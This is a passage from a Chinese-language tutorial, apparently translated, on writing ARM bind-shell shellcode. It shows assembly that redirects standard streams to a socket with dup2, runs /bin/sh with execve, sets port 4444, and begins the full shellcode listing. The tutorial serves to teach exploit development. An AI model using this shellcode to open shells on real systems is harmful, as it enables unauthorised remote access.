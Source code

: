 ### 5 - STDIN/STDOUT/STDERR
![/img/2018-01-15/t01b34f125cd041e78d.png](https://p4.ssl.qhimg.com/t01b34f125cd041e78d.png)

dup2 函数的系统调用号为 63。此时，我们需要将前面保存的 client_sockid 再次移动到 r0 中，然后通过 sub 指令将 r1 设置为 0 。对于剩下的两个 dup2 调用语句，我们只需要在每次系统调用完成后，改变 r1 的值，将 r0 重置为 client_sockid 即可。
```
    /* dup2(client_sockid, 0) */
    mov     r7, #63                // r7 = 63 (dup2 syscall number) 
    mov     r0, r4                 // r4 is the saved client_sockid 
    sub     r1, r1, r1             // r1 = 0 (stdin) 
    svc     #1

    /* dup2(client_sockid, 1) */
    mov     r0, r4                 // r4 is the saved client_sockid 
    add     r1, #1                 // r1 = 1 (stdout) 
    svc     #1

    /* dup2(client_sockid, 2) */
    mov     r0, r4                 // r4 is the saved client_sockid
    add     r1, #1                 // r1 = 1+1 (stderr) 
    svc     #1
```

### 6 - 启动shell
![/img/2018-01-15/t01103ead1df966a5d1.png](https://p1.ssl.qhimg.com/t01103ead1df966a5d1.png)
```
// execve("/bin/sh", 0, 0) 
 adr r0, shellcode     // r0 = location of "/bin/shX"
 eor r1, r1, r1        // clear register r1. R1 = 0
 eor r2, r2, r2        // clear register r2. r2 = 0
 strb r2, [r0, #7]     // store null-byte for AF_INET
 mov r7, #11           // execve syscall number
 svc #1
 nop
```
我在[如何编写 ARM Shellcode 教程](https://azeria-labs.com/writing-arm-shellcode/)中给出了一个例子，这里 execve() 函数的转换过程与之前的例子相同，因此我不会再去详细解释具体步骤。

最后，我们需要在汇编代码的末尾存放一些值，如 AF_INET （包含 0xff 数值，后面会被 null 字节替换）、端口号、 IP 地址以及 /bin/sh 字符串。
```
struct_addr:
.ascii "x02xff"      // AF_INET 0xff will be NULLed 
.ascii "x11x5c"     // port number 4444 
.byte 1,1,1,1        // IP Address 
shellcode:
.ascii "/bin/shX"
```

## 五、完整汇编代码
我们最终生成的 bind shellcode 如下所示：
```
.section .text
.global _start
    _start:
    .ARM
    add r3, pc, #1         // switch to thumb mode 
    bx r3

    .THUMB
// socket(2, 1, 0)
    mov r0, #2
    mov r1, #1
    sub r2, r2, r2      // set r2 to null
```